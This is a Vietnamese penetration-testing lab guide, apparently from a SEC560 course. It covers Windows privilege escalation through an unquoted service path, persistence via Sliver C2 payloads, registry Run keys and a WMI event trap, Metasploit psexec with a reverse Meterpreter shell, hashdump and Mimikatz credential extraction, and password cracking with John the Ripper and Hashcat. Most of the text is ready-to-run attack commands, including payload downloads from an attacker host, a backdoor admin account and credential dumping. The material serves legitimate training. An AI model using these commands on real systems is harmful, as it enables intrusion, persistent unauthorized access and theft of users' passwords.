# LAB 3: Privilege Escalation, Persistence, and Password Attacks

## Table of Contents

- [Tổng quan Lab 3:](#tổng-quan-lab-3)
- [Lab 3.1: Windows Privilege Escalation](#lab-31-windows-privilege-escalation)
- [Mục tiêu của chúng ta:](#mục-tiêu-của-chúng-ta)
- [Cấu hình máy ảo](#cấu-hình-máy-ảo)
- [Cấu hình mạng với vmnet8 như sau:](#cấu-hình-mạng-với-vmnet8-như-sau)
- [Các bước thực hiện](#các-bước-thực-hiện)
- [Lab 3.3.  Persistence](#lab-33--persistence)
- [Mục tiêu của chúng ta:](#mục-tiêu-của-chúng-ta)
- [Lab 3.4: MSF psexec, hashdumping và Mimikatz](#lab-34-msf-psexec-hashdumping-và-mimikatz)
- [Lab 3.5: Bẻ khóa mật khẩu với John the Ripper và Hashcat!](#lab-35-bẻ-khóa-mật-khẩu-với-john-the-ripper-và-hashcat!)
- [Lab 3.6: Responder](#lab-36-responder)
- [Mục tiêu của chúng ta:](#mục-tiêu-của-chúng-ta)

---


## Tổng quan Lab 3:

| Lab 3.1 | Windows Privilege Escalation | 234 |
| --- | --- | --- |
| Lab 3.2 | Bloodhound | 243 |
| Lab 3.3 | Persistence | 255 |
| Lab 3.4 | MSF psexec, hashdumping, and Mimikatz | 270 |
| Lab 3.5 | Cracking with John the Ripper and Hashcat | 292 |
| Lab 3.6 | Responder | 321 |

Thực hiện các bài lab được bôi xanh.

Mô hình mạng được tri:

SEC560 Slingshot Linux (I01):

SEC560 Windows 10 (I01): 10.130.10.25

PC02:

ParrotSec6.0:

## Lab 3.1: Windows Privilege Escalation
## Mục tiêu của chúng ta:

Sử dụng các công cụ beRoot.exe và PowerUp để tự động dò quét các lỗ hổng leo thang đặc quyền trên máy.

Khai thác một lỗi cấu hình kinh điển của Windows: "Unquoted Service Path" (Đường dẫn dịch vụ không có dấu ngoặc kép) để thâu tóm quyền Admin.9

## Cấu hình máy ảo

Sử dụng Slingshot Linux và
## Cấu hình mạng với vmnet8 như sau:


```bash
Ping từ máy Slingshot linux tới máy Hiboxy DC:
```


## Các bước thực hiện

Bước 1: Đóng vai kẻ xâm nhập với quyền hạn thấp

Để bài tập chân thực nhất, chúng ta không thể bắt đầu bằng tài khoản đã có sẵn quyền Admin (sec560). Chúng ta sẽ mượn một tài khoản người dùng bình thường mang tên notadmin.

Thực hành:

Trên máy ảo Windows 10, hãy đăng xuất (Sign Out) khỏi tài khoản hiện tại.

Đăng nhập lại với thông tin sau:

Username: SEC560STUDENT\notadmin

Password: notadmin



Bước 2: "Khám sức khỏe" hệ thống bằng beRoot.exe

beRoot.exe là công cụ tự động hóa quá trình rà quét lỗ hổng các dịch vụ, các quyền hạn của người dùng hiện tại hoặc phát hiện những lỗi cấu hình hệ thống khác.

Hệ điều hành Windows có hàng ngàn cấu hình, việc tìm lỗi bằng tay giống như mò kim đáy bể. Thay vào đó, hacker sử dụng các công cụ tự động. Món đồ chơi đầu tiên của chúng ta hôm nay là beRoot.exe.

Thực hành:

Mở Command Prompt (cmd.exe) bình thường.

Chạy các lệnh sau để khởi động beRoot:

```bash
cd C:\Tools\BeRoot
```

```bash
beRoot.exe
```



Phân tích đơn giản: Công cụ này sẽ quét qua toàn bộ hệ thống để tìm những điểm yếu. Hãy cuộn lên và chú ý vào phần ################ Service ################. beRoot đã phát hiện ra một dịch vụ tên là Video Stream có chứa khoảng trắng trong đường dẫn nhưng lại không được bọc trong dấu ngoặc kép: C:\Program Files\VideoStream\1337 Log\checklog.exe. Kèm theo đó, thư mục C:\Program Files\VideoStream lại cho phép chúng ta quyền ghi (Writables path found).

Bước 3: Xác nhận lại bằng PowerUp

Trong kiểm thử bảo mật, không bao giờ tin tưởng tuyệt đối vào một công cụ duy nhất để tránh báo cáo sai (false positive). Chúng ta sẽ dùng thêm một công cụ cực kỳ nổi tiếng khác tên là PowerUp (viết bằng PowerShell) để kiểm tra chéo.

Thực hành:

Vẫn trong Powershell, di chuyển đến thư mục Tools và nạp module PowerUp:

```bash
cd C:\Tools
```

Import-Module .\PowerUp.ps1

(Nếu có cảnh báo bảo mật hỏi bạn có muốn chạy script không, hãy gõ R để đồng ý chạy)



Ra lệnh cho PowerUp chạy toàn bộ các bài kiểm tra bằng lệnh:

Invoke-AllChecks



Phân tích đơn giản: PowerUp chạy mất vài giây và kết quả trả về cũng xác nhận rằng dịch vụ Video Stream bị dính lỗi "Unquoted service paths". Hơn thế nữa, PowerUp còn tốt bụng gợi ý luôn cho chúng ta hàm để khai thác tự động: AbuseFunction : Write-ServiceBinary -Name 'Video Stream'....

Bước 4: Kiểm tra dịch vụ bằng mắt thường (services.msc)

Là một hacker chuyên nghiệp, bạn nên hiểu rõ những gì công cụ đang báo cáo bằng cách tự mình kiểm tra giao diện của hệ thống.

Thực hành:

Mở hộp thoại Run (Windows + R) hoặc gõ thẳng vào Command Prompt:

services.msc



Cuộn xuống tìm dịch vụ có tên Video Stream và nhấp đúp chuột vào nó.





Phân tích đơn giản: Nhìn vào phần "Path to executable", bạn sẽ thấy dòng chữ: C:\Program Files\VideoStream\1337 Log\checklog.exe. Tại sao đây lại là lỗi chết người? Vì không có dấu ngoặc kép bọc lại, khi Windows khởi động dịch vụ này (với quyền SYSTEM cao nhất), nó sẽ đọc đường dẫn có chứa khoảng trắng và hiểu lầm! Thay vì chạy file checklog.exe ở tuốt bên trong, Windows sẽ cố tìm và chạy một file tên là 1337.exe nằm tại thư mục C:\Program Files\VideoStream\ trước. Nếu chúng ta có thể thả một con virus tên là 1337.exe vào thư mục đó, Windows sẽ vui vẻ chạy con virus của chúng ta bằng quyền SYSTEM tối thượng!

Bước 5: Ra đòn quyết định (Khai thác với PowerUp)

Chúng ta đã biết hệ thống có lỗi, cũng biết chính xác thư mục đang mở quyền ghi. Giờ là lúc chúng ta nhờ PowerUp tạo ra một file mã độc 1337.exe và thả vào đúng vị trí đó.

Thực hành:

Quay lại cửa sổ dòng lệnh đang chạy PowerUp lúc nãy, gõ lệnh sau:

```bash
Write-ServiceBinary -ServiceName 'Video Stream' -Path 'C:\Program Files\VideoStream\1337.exe'
```



Phân tích đơn giản: Lệnh này sẽ tự động tạo ra một file thực thi 1337.exe và đặt nó vào thư mục bị lỗi. File này chứa một đoạn mã rất đơn giản nhưng hiệu quả:

```bash
net user john Password123! /add && timeout /t 5 && net localgroup Administrators john /add. Nghĩa là khi dịch vụ Video Stream khởi động lại (hay hệ thống khởi động lại), đoạn mã này sẽ được chạy bằng quyền SYSTEM, tự động tạo ra một tài khoản mới tên là john, mật khẩu Password123! và nâng cấp john lên làm Quản trị viên (Administrators).

Bước 6: Tận hưởng thành quả (Xác nhận quyền Admin)

Một khi payload đã nằm đúng chỗ và dịch vụ được kích hoạt, một tài khoản Quản trị viên ẩn danh đã được sinh ra ngay dưới mũi của đội ngũ IT. Hãy cùng kiểm tra danh sách người dùng.

Thực hành:

Mở Command Prompt và kiểm tra danh sách tài khoản người dùng trên máy bằng lệnh:

```bash
net users
```



Phân tích đơn giản: Trong danh sách trả về, bạn sẽ thấy sự xuất hiện của tài khoản john bên cạnh các tài khoản mặc định. Chúc mừng! Bạn vừa hô biến từ một tài khoản notadmin yếu ớt thành một Administrator quyền lực thông qua việc lợi dụng sự lỏng lẻo trong cấu hình của một phần mềm bên thứ ba cài trên máy.

Dọn dẹp: Để kết thúc bài Lab, bạn hãy đăng xuất khỏi tài khoản notadmin (hoặc test thử đăng nhập vào john cho biết), sau đó đăng nhập lại vào tài khoản sec560 (mật khẩu sec560) để chuẩn bị cho những bài tập tiếp theo nhé.
**Tổng kết: Chỉ một dấu ngoặc kép bị thiếu trong cấu hình đường dẫn dịch vụ cũng có thể dẫn đến việc toàn bộ máy tính bị chiếm quyền điều khiển. Bài Lab này nhắc nhở các quản trị viên hệ thống bài học đắt giá về việc cẩn trọng khi cài đặt và phân quyền thư mục cho các phần mềm! Mọi thứ trên máy nạn nhân giờ đã nằm trong tay bạn.**

## Lab 3.3.  Persistence
## Mục tiêu của chúng ta:

Tạo nhiều loại mã độc (payload) duy trì truy cập bằng Sliver.

Tạo một dịch vụ (Service) trên Windows tự động kết nối về Sliver.

Ghi mã độc vào Registry (Run key) của người dùng.

Sử dụng WMI Filter để bắt sự kiện đăng nhập thất bại và tự động kích hoạt mã độc.

Bước 1: Khởi động Trạm lắng nghe trên Sliver

Như mọi cuộc tấn công C2 (Command & Control) khác, việc đầu tiên luôn là bật "trạm thu sóng" để chờ mã độc từ máy nạn nhân gọi về.

Thực hành:

Trên máy Linux, khởi động máy chủ Sliver:

```bash
sudo sliver-server
```



Bật cổng lắng nghe HTTPS (mặc định là cổng 443):

```bash
https
```



Phân tích đơn giản: Lệnh https giúp trạm lắng nghe của chúng ta sẵn sàng hứng các kết nối được mã hóa bảo mật từ mã độc gửi về, hòa lẫn vào lưu lượng web thông thường.

Bước 2: Chế tạo và chia sẻ "Vũ khí" (Payloads)

Hệ điều hành Windows quản lý các file chạy trực tiếp (như .exe thông thường) và file chạy dưới dạng Dịch vụ (Service) rất khác nhau. Do đó, chúng ta cần "đúc" hai loại mã độc riêng biệt: một loại dạng service và một loại dạng exe thông thường.

Thực hành:

Tạo payload dạng Service:

```bash
generate --os windows --arch 64bit --skip-symbols --format service --name service --http https://10.130.10.128
```



Tạo payload dạng EXE thông thường:

```bash
generate --os windows --arch 64bit --skip-symbols --format exe --name payload --http
```



Đổi quyền sở hữu file để dễ chia sẻ và bật Web Server bằng Python để đưa file sang Windows:

```bash
sudo chown sec560:sec560 *.exe
```

```bash
python3 -m http.server
```



Phân tích đơn giản: Tùy chọn --format service rất quan trọng. Nếu bạn dùng file .exe thông thường để gắn vào Windows Service, Windows sẽ báo lỗi và ép đóng tiến trình đó sau 30 giây vì nó không phản hồi đúng chuẩn của một dịch vụ. Việc chia làm 2 loại payload đảm bảo mã độc hoạt động hoàn hảo ở mọi vị trí.

Bước 3: Đưa vũ khí sang Windows

Đóng vai một người dùng vô tình tải file hoặc một hacker vừa có quyền truy cập, chúng ta sẽ kéo mã độc này sang máy nạn nhân.

Thực hành:

Chuyển sang máy ảo Windows 10, mở PowerShell và tải file về thư mục Desktop:

```bash
cd Desktop
```

```bash
wget http://10.130.10.128:8000/payload.exe -OutFile payload.exe
```

```bash
wget http://10.130.10.128:8000/service.exe -OutFile service.exe
```



Bước 4: Kỹ thuật 1 - Cắm rễ bằng Windows Service

Bây giờ chúng ta sẽ dùng công cụ sc (Service Control) mặc định của Windows để tạo một dịch vụ hệ thống ngầm, tự động khởi chạy mã độc service.exe mỗi khi máy tính bật lên.

Thực hành:

Mở Command Prompt với quyền Quản trị viên (nhấp chuột phải chọn Run as administrator).

Tạo một dịch vụ tên là persist:

```bash
sc create persist binpath= "c:\Users\sec560\Desktop\service.exe" start= auto
```



Sau khi Windows khởi động lại (hoặc bạn có thể gọi thủ công bằng lệnh sc start persist), quay lại máy Linux, bạn sẽ thấy một Session mới gọi về.

Truy cập vào phiên đó (Thay 5c bằng 2 ký tự đầu trong ID phiên của bạn) và kiểm tra quyền hạn:

```bash
use 48
```

```bash
whoami
```



Dọn dẹp: Để chuyển sang bài sau, hãy xóa dịch vụ này đi bằng lệnh (trên Windows):

```bash
sc stop persist
```

```bash
sc delete persist
```



Phân tích đơn giản: Lưu ý khoảng trắng: Lệnh sc cực kỳ kén chọn, bắt buộc phải có dấu cách sau dấu bằng binpath= "...". Khi được chạy dưới dạng Service (với tùy chọn start= auto), mã độc sẽ tự động kích hoạt với đặc quyền cao nhất là NT AUTHORITY\SYSTEM ngay từ lúc Windows khởi động, kể cả khi chưa có người dùng nào đăng nhập!

Bước 5: Kỹ thuật 2 - Cắm rễ bằng Registry (HKCU Run)

Cách số 1 yêu cầu quyền Quản trị (Admin) để tạo Dịch vụ. Nếu bạn chỉ xâm nhập được tài khoản nhân viên bình thường (User) thì sao? Giải pháp là ghi mã độc vào Registry tự khởi động của cá nhân người dùng đó.

Thực hành:

Mở Command Prompt (không cần quyền Admin).

Ghi đường dẫn file payload.exe vào khóa Run của Registry:

```bash
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "User Persist" /t REG_SZ /F /D "C:\Users\sec560\Desktop\payload.exe"
```



Bất cứ khi nào user sec560 đăng nhập, máy Linux của bạn sẽ nhận được một Session mới!



Dọn dẹp: Xóa khóa Registry này đi để thử kỹ thuật tiếp theo:

```bash
reg delete "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "User Persist"
```



Phân tích đơn giản: HKCU (HKEY_CURRENT_USER) là vùng Registry dành riêng cho người dùng hiện tại. Vì ghi vào khu vực cá nhân, nó không yêu cầu quyền Admin. Tuy mã độc chỉ có quyền User thấp, nhưng nó vẫn đảm bảo bạn có đường quay lại máy nạn nhân.

Bước 6: Kỹ thuật 3 - Bẫy kích hoạt tinh vi bằng WMI Event Filter

Cách số 1 và 2 quá phổ biến, rất dễ bị các phần mềm diệt virus hoặc nhân viên IT phát hiện khi họ xem danh sách khởi động (Startup). Giới hacker tinh vi đã sáng tạo ra cách dùng WMI (Windows Management Instrumentation) - Một công cụ quản lý lõi của Windows để làm "bẫy".

Kịch bản của chúng ta: "Hệ thống ơi, hãy liên tục theo dõi, nếu thấy có một gã nào tên là fakeuser cố tình đăng nhập sai, hãy ngầm chạy mã độc payload.exe giùm tôi nhé!"

Thực hành:

Mở lại PowerShell với quyền Quản trị viên (Run as administrator).

Copy và dán toàn bộ 3 khối lệnh sau để tạo Bộ lọc (Filter), Hành động (Consumer) và Gắn kết chúng lại với nhau (Binding):

$filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments @{EventNamespace = 'root/cimv2'; Name = "UPDATER"; Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_NTLogEvent' AND Targetinstance.EventCode = '4625' And Targetinstance.Message Like '%fakeuser%'"; QueryLanguage = 'WQL'}

$consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments @{Name = "UPDATER"; CommandLineTemplate = "C:\Users\sec560\Desktop\payload.exe"}

$FilterToConsumerBinding = Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments @{Filter = $Filter; Consumer = $Consumer}



Chuyển sang máy Linux, cố tình đăng nhập sai vào máy Windows bằng tên fakeuser (Thay 10.130.10.25 bằng IP máy Windows):

smbclient '\\10.130.10.25\c$' -U fakeuser fakepass

Quay lại cửa sổ Sliver trên Linux, bạn sẽ thấy mã độc đã được gọi về hệ thống! Hãy gõ whoami để thấy bạn đang mang quyền NT AUTHORITY\SYSTEM.



Phân tích đơn giản:

Filter (Bộ lọc): Chúng ta dùng ngôn ngữ truy vấn WQL (rất giống SQL) để tìm EventCode '4625' (Mã sự kiện: Đăng nhập thất bại) chứa từ khóa 'fakeuser'.

Consumer (Hành động): Khi bộ lọc báo hiệu, nó sẽ gọi công cụ Command Line chạy file payload.exe.

Bất cứ khi nào bạn mất kết nối, bạn chỉ cần ném một lệnh đăng nhập sai bằng tài khoản fakeuser từ bên ngoài vào là máy nạn nhân lại tự động tự "mở cửa" mời bạn vào với quyền cao nhất (SYSTEM). Nó gần như "vô hình" đối với các kỹ thuật rà quét Startup thông thường!
**Tổng kết: Qua Lab này, bạn đã thấy có vô vàn cách để một kẻ tấn công ở lại vĩnh viễn trong hệ thống. Tùy vào quyền hạn (User hay Admin) và độ cảnh giác của mục tiêu, chúng ta có thể chọn từ những cách cơ bản nhất (Registry) cho đến những cái bẫy vô hình và lợi hại (WMI).**

Bài học rút ra: Xóa mã độc thôi là chưa đủ, phải tìm cho ra gốc rễ của cách nó kích hoạt!

## Lab 3.4: MSF psexec, hashdumping và Mimikatz

Bước 1: Chuẩn bị vũ khí (Cấu hình Metasploit psexec)

Metasploit có một module tên là psexec. Nếu bạn đã có trong tay tài khoản và mật khẩu của một quản trị viên (hoặc mã băm của họ), bạn có thể dùng module này để yêu cầu máy chủ Windows từ xa chạy một dịch vụ chứa mã độc, qua đó thả Meterpreter vào hệ thống với quyền hệ thống cao nhất.

Thực hành:

Khởi động Metasploit trên Linux:

```bash
msfconsole
```



Gọi module psexec và thiết lập payload thành Meterpreter:

```bash
use exploit/windows/smb/psexec
```

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```



**Cấu hình thông tin mục tiêu là máy chủ Web01 (10.130.10.25) và máy của bạn (Kẻ tấn công):**

```bash
set RHOSTS 10.130.10.25
```

```bash
set LHOST 10.130.10.128
```





Truyền vào thông tin xác thực của quản trị viên (tài khoản bgreen, mật khẩu Password1):

```bash
set SMBUser bgreen
```

```bash
set SMBDomain hiboxy
```

```bash
set SMBPass Password1
```



Phân tích đơn giản: Khi cấu hình xong, module này sẽ dùng tài khoản hợp lệ để kết nối vào máy tính nạn nhân qua cổng chia sẻ file SMB. Thay vì gửi file bình thường, nó sẽ tải lên một file thực thi mã độc, tạo một dịch vụ ẩn (Service) trên Windows, khởi chạy dịch vụ đó để kích hoạt Meterpreter và trả quyền điều khiển về cho chúng ta.

Bước 2: Khai hỏa và Xác nhận quyền lực

Đạn đã lên nòng, nhắm thẳng mục tiêu và bóp cò!

Thực hành:

Khởi chạy cuộc tấn công:

Run



Kiểm tra xem chúng ta đang chạy dưới quyền của ai:

```bash
getuid
```



Phân tích đơn giản: Nếu bạn thấy dòng chữ Server username: NT AUTHORITY\SYSTEM, xin chúc mừng! Khác với quyền Admin thông thường, SYSTEM là quyền tối cao nhất trên hệ điều hành Windows, cho phép bạn làm bất cứ điều gì trên máy tính này, kể cả việc can thiệp sâu vào nhân hệ thống.

Bước 3: Trích xuất mã băm mật khẩu (Hashdumping)

Khi đã nắm quyền SYSTEM, hành động tiếp theo của mọi hacker là đi thu thập "chìa khóa" của những người dùng khác. Chúng ta sẽ trích xuất toàn bộ mã băm mật khẩu đang lưu trên máy này.

Thực hành:

Tại dấu nhắc Meterpreter, chạy công cụ thu thập mã băm mặc định:

```bash
run post/windows/gather/hashdump
```



Phân tích đơn giản: Lệnh này sẽ thọc sâu vào cơ sở dữ liệu SAM cục bộ của Windows để lấy danh sách mã băm NTLM của tất cả các tài khoản. Với đống mã băm này, bạn có thể mang về máy mình để bẻ khóa (cracking) bằng John the Ripper hoặc Hashcat, hoặc dùng chính các mã băm này để thực hiện tấn công Pass-the-Hash (chuyển tiếp mã băm) sang các máy khác.

Bước 4: Chuyển hướng mục tiêu để dùng Mimikatz

Lấy được mã băm đã tốt, nhưng nếu lấy được mật khẩu nguyên bản (cleartext) thì còn tuyệt vời hơn! Mimikatz là công cụ chuyên làm việc đó. Tuy nhiên, để thực hành an toàn mà không làm sập máy chủ lab chung, chúng ta sẽ thoát phiên hiện tại và chuyển mục tiêu tấn công thẳng vào máy ảo Windows 10 cục bộ của bạn.

Thực hành:

Thoát khỏi Meterpreter hiện tại để quay về dấu nhắc Metasploit:

```bash
Exit
```

Thiết lập lại cấu hình tấn công vào máy Windows 10 của bạn (Hãy thay 10.130.10.25 bằng IP máy Windows của bạn):

```bash
set LHOST eth0
```

```bash
set SMBUSER sec560
```

```bash
set SMBPASS sec560
```

unset SMBDomain

```bash
set RHOSTS 10.130.10.25
```



Bóp cò lần nữa để thâm nhập máy Windows cục bộ:

run



Bước 5: Ký sinh và kích hoạt Mimikatz (Kiwi)

Để Mimikatz có thể moi móc bộ nhớ RAM (cụ thể là tiến trình LSASS của Windows), nó cần chạy trên một tiến trình 64-bit có quyền SYSTEM. Vì Meterpreter mặc định của chúng ta chỉ là 32-bit, ta cần phải "nhảy" sang một vật chủ khác thích hợp hơn.

Thực hành:

Tìm danh sách các tiến trình 64-bit đang chạy quyền SYSTEM:

```bash
ps -A x64 -s
```



(Hãy tìm tiến trình tên là spoolsv.exe - đây là dịch vụ máy in, một vật chủ an toàn để ký sinh vì nếu lỡ làm sập nó thì hệ thống cũng không bị ảnh hưởng nghiêm trọng).

Ký sinh (migrate) sang tiến trình spoolsv.exe:

```bash
migrate -N spoolsv.exe
```



Tải bộ công cụ Mimikatz (trong Metasploit, module này có tên là Kiwi):

load kiwi



Quét và trích xuất mọi mật khẩu rõ ràng đang lưu trên RAM:

creds_all



Phân tích đơn giản:

Lệnh ps -A x64 -s dùng bộ lọc cực hay để chỉ hiển thị tiến trình 64-bit (x64) và của hệ thống (-s).

Lệnh creds_all của Mimikatz là một "phép thuật" thực sự. Nhờ cơ chế của Windows lưu lại thông tin đăng nhập trong bộ nhớ (để phục vụ xác thực một lần - SSO), Mimikatz có thể đọc RAM và lấy lại nguyên vẹn Mật khẩu rõ ràng (cleartext password) của bất kỳ ai đang đăng nhập trên máy tính này! Bạn sẽ thấy mật khẩu của tài khoản sec560 hoặc bgreen hiện ra sờ sờ trên màn hình.

Cuối cùng, hãy gõ exit để thoát khỏi hệ thống và xóa dấu vết.
**Tổng kết: Thật đáng sợ phải không? Chỉ từ một tài khoản hợp lệ bị rò rỉ, chúng ta có thể lợi dụng SMB để giành quyền kiểm soát máy tính hoàn toàn. Một khi đã có quyền SYSTEM, mọi phương thức bảo mật của hệ điều hành đều vô nghĩa trước những công cụ vơ vét dữ liệu như Hashdump và Mimikatz. Hệ thống của nạn nhân giờ đã trong tay bạn!**

## Lab 3.5: Bẻ khóa mật khẩu với John the Ripper và Hashcat!

Hãy mở máy ảo Slingshot Linux của bạn lên. Để đảm bảo kết quả bẻ khóa là mới hoàn toàn, đầu tiên chúng ta cần dọn dẹp các tệp lưu trữ kết quả cũ (pot file):

```bash
rm /home/sec560/.local/share/hashcat/hashcat.potfile
```

```bash
rm ~/.john/john.pot
```

(Nếu hệ thống báo lỗi không tìm thấy tệp thì không sao cả, điều đó có nghĩa là máy bạn đã sạch sẽ).



Bước 1: Đo lường sức mạnh của "John" (Benchmark)

Trước khi bước vào sàn đấu thực sự, chúng ta cần cho các công cụ "khởi động" để xem tốc độ của chúng tới đâu. Tốc độ bẻ khóa phụ thuộc rất lớn vào loại thuật toán mã băm. Thuật toán càng cũ (như LM) thì bẻ càng nhanh, thuật toán càng hiện đại và có "muối" (salt) thì bẻ càng chậm.

Thực hành:

Kiểm tra tốc độ bẻ khóa mã băm LM (của Windows cũ):

```bash
john --test --format=lm
```



Kiểm tra tốc độ bẻ khóa mã băm md5crypt (thường dùng trên Linux):

```bash
john --test --format=md5crypt
```



Phân tích đơn giản: Lệnh --test giúp JtR chạy thử nghiệm tốc độ trên phần cứng hiện tại của bạn. Bạn sẽ thấy tốc độ bẻ khóa LM (đo bằng K c/s - ngàn lần thử/giây) nhanh hơn rất nhiều so với md5crypt. Hãy ghi nhớ con số này để lát nữa so sánh với Hashcat nhé.

Bước 2: Bẻ khóa mật khẩu Windows với John the Ripper

Chúng ta có một danh sách các mã băm trích xuất từ máy chủ Web01 (chứa cả mã băm LM và NT). Trong Windows, LM (LANMAN) là một thuật toán cực kỳ yếu vì nó tự động viết hoa toàn bộ mật khẩu và cắt đôi mật khẩu ra (mỗi nửa 7 ký tự) để mã hóa riêng biệt. Điều này khiến việc bẻ khóa trở nên dễ như ăn kẹo!

Thực hành:

Chạy JtR nhắm thẳng vào tệp chứa mã băm:

```bash
john ~/labs/web01.hashes
```



Xem các mật khẩu đã bẻ khóa thành công:

```bash
john ~/labs/web01.hashes –show
```



Phân tích đơn giản: John tự động nhận diện đây là mã băm LM. Bạn sẽ thấy mật khẩu của tài khoản vberry được bẻ khóa thành công dưới dạng in hoa toàn bộ là MIMIGOTKNENZ2G. Tuy đây chưa phải là mật khẩu phân biệt hoa thường chính xác nhất (vì LM tự in hoa), nhưng có nó rồi, việc bẻ khóa phần NT hash (mã băm hiện đại hơn của Windows) để lấy đúng chữ hoa/thường sẽ diễn ra trong chớp mắt!

Bước 3: Dùng Từ Điển (Wordlist) để bẻ khóa Hash NT

Không phải tài khoản nào cũng dùng mã băm LM yếu ớt. Để bẻ khóa mã băm NT (NTLM) vững chắc hơn, phương pháp vét cạn (thử từng ký tự một) sẽ mất cả thanh xuân. Thay vào đó, hacker dùng "Từ điển" chứa hàng triệu mật khẩu rò rỉ phổ biến. Cuốn từ điển huyền thoại nhất có tên là rockyou.txt.

Thực hành:

Chạy JtR tấn công mã băm NT kết hợp với từ điển RockYou:

```bash
john --format=nt ~/labs/web01.hashes --wordlist=/opt/passwords/rockyou.txt
```



Phân tích đơn giản: Lệnh --format=nt ép John phải giải mã thuật toán NT. Cờ --wordlist trỏ tới tệp từ điển. John sẽ lần lượt lấy từng từ trong danh sách RockYou để băm và so sánh. Với cách này, chúng ta đã bẻ được thêm hàng loạt mật khẩu yếu mà người dùng văn phòng hay đặt.

Bước 4: Bẻ khóa mật khẩu Linux (Shadow file)

Khác với Windows, Linux hiện đại dùng thuật toán sha512crypt (ký hiệu là $6$). Thuật toán này trộn thêm "muối" (salt) ngẫu nhiên và băm lặp đi lặp lại hàng ngàn lần để chống lại phần cứng mạnh. Hãy xem "John" sẽ vất vả thế nào nhé!

Thực hành:

Tấn công tệp shadow của máy Linux bằng từ điển RockYou:

```bash
john ~/labs/web10.shadow --wordlist=/opt/passwords/rockyou.txt
```



Phân tích đơn giản: Tốc độ bẻ khóa sẽ chậm đi trông thấy so với mã băm NT. Cùng một từ điển, nhưng vì sha512crypt quá nặng, hệ thống của bạn sẽ cần vài phút mới ra được kết quả. Bạn có thể nhấn phím q hoặc CTRL-c để thoát sớm nếu không muốn chờ đợi.

Bước 5: Làm quen và đo tốc độ với Hashcat

John the Ripper rất tuyệt, nhưng nếu bạn có một chiếc Card đồ họa (GPU) mạnh mẽ, Hashcat mới là vị vua tốc độ thực sự. Để dùng Hashcat, bạn phải khai báo chính xác "loại thuật toán" bằng các con số.

Thực hành:

Tìm mã số của thuật toán mã băm bằng lệnh grep:

```bash
hashcat --help | grep LM
```

```bash
hashcat --help | grep md5crypt
```

```bash
hashcat --help | grep sha512
```

(Kết quả sẽ cho thấy: LM là 3000, md5crypt là 500, sha512crypt là 1800)



Thử đo tốc độ (Benchmark) Hashcat với LM hash (Mức tải số 3 - High):

```bash
hashcat -w 3 --benchmark -m 3000
```



Phân tích đơn giản: Hashcat sử dụng các tham số rất chặt chẽ: -m là loại mã băm (Hash mode), -a là kiểu tấn công (Attack mode), và -w là cấu hình hiệu suất (Workload profile). Mức -w 3 ép máy tính vắt kiệt sức mạnh để bẻ khóa, do đó quạt tản nhiệt của bạn có thể sẽ bắt đầu rú lên! Hãy so sánh tốc độ này với JtR ở Bước 1 xem ai nhanh hơn nhé.

Bước 6: Phép thuật "Biến đổi từ" (Rules) trong Hashcat

Người dùng rất khôn ngoan, họ hiếm khi dùng mật khẩu đơn giản như "password". Họ hay đổi thành "Password123" hay "P@ssword!". Nếu từ điển RockYou không có sẵn từ này thì sao? Đó là lúc ta dùng Rules (Luật). Rule sẽ giúp Hashcat tự động in hoa chữ cái đầu, thêm số vào đuôi, hoặc lật ngược từ... giúp mở rộng từ điển lên hàng tỷ biến thể!

Thực hành:

Xem thử một bộ Rule nổi tiếng có tên là best64.rule:

```bash
head -n 30 /usr/local/share/doc/hashcat/rules/best64.rule
```



Chạy Hashcat bẻ khóa NT hash (mode 1000) với từ điển RockYou kết hợp Rule best64:

```bash
hashcat -w 3 -a 0 -m 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt -r /usr/local/share/doc/hashcat/rules/best64.rule
```



Phân tích đơn giản: Cờ -a 0 (Straight mode) kết hợp với cờ -r (trỏ tới tệp Rule) biến Hashcat thành một cỗ máy nhào nặn từ ngữ. Nhờ các phép biến đổi thông minh trong best64.rule, Hashcat đã tìm ra thêm những mật khẩu phức tạp hơn mà ở Bước 3 JtR đã bỏ sót.

Bước 8: Lấy mỡ nó rán nó (Bẻ khóa Linux bằng mật khẩu Windows)

Mọi người thường có tật xấu: Dùng chung một mật khẩu cho mọi hệ thống! Thay vì tốn hàng giờ bẻ khóa thuật toán sha512crypt nặng nề của Linux, tại sao ta không lấy luôn danh sách mật khẩu Windows vừa bẻ được để làm từ điển tấn công Linux? Kẻ lười biếng thường là kẻ thông minh nhất!

Thực hành:

Xuất danh sách mật khẩu Windows đã bẻ được ra một tệp riêng passwords.txt:

```bash
hashcat -m 1000 --show --outfile-format 2 ~/labs/web01.hashes | tee /tmp/passwords.txt
```



Dùng chính danh sách này làm từ điển tấn công máy Linux (mode 1800), kết hợp thêm Rule best64 đề phòng nạn nhân có đổi nhẹ mật khẩu:

```bash
hashcat -w 3 -a 0 -m 1800 ~/labs/web10.shadow /tmp/passwords.txt -r /usr/local/share/doc/hashcat/rules/best64.rule
```



Xem thành quả:

```bash
hashcat -m 1800 --username --show --outfile-format 2 ~/labs/web10.shadow
```



Phân tích đơn giản: Lệnh --outfile-format 2 giúp Hashcat chỉ in ra phần Mật khẩu rõ (Cleartext) mà không kèm theo tên người dùng hay mã băm. Việc tái sử dụng mật khẩu này là một chiến thuật vàng trong kiểm thử xâm nhập. Kết quả cho thấy nhân viên abates đã dùng chung y xì một mật khẩu Metallica6& cho cả hai hệ thống, trong khi wrobinson chỉ thay đổi một chút ở phần số đuôi!
**Tổng kết: Thật xuất sắc! Bằng cách kết hợp linh hoạt giữa các công cụ bẻ khóa (John, Hashcat), các kiểu tấn công (Wordlist, Rules, Masking) và tư duy tái sử dụng dữ liệu, bạn đã chứng minh được rằng: Không có mã băm nào là bất khả xâm phạm nếu người dùng vẫn giữ thói quen đặt mật khẩu dễ đoán.**

## Lab 3.6: Responder

Bài thực hành 3.6: Tấn công bằng Responder & Bắt gói tin (Sniffing)
## Mục tiêu của chúng ta:

Sử dụng Responder để đánh lừa giao thức LLMNR và đoạt lấy mã băm NTLMv2 (Challenge-response).

Crack (bẻ khóa) mã băm NTLMv2 bằng công cụ John The Ripper để lấy mật khẩu gốc.

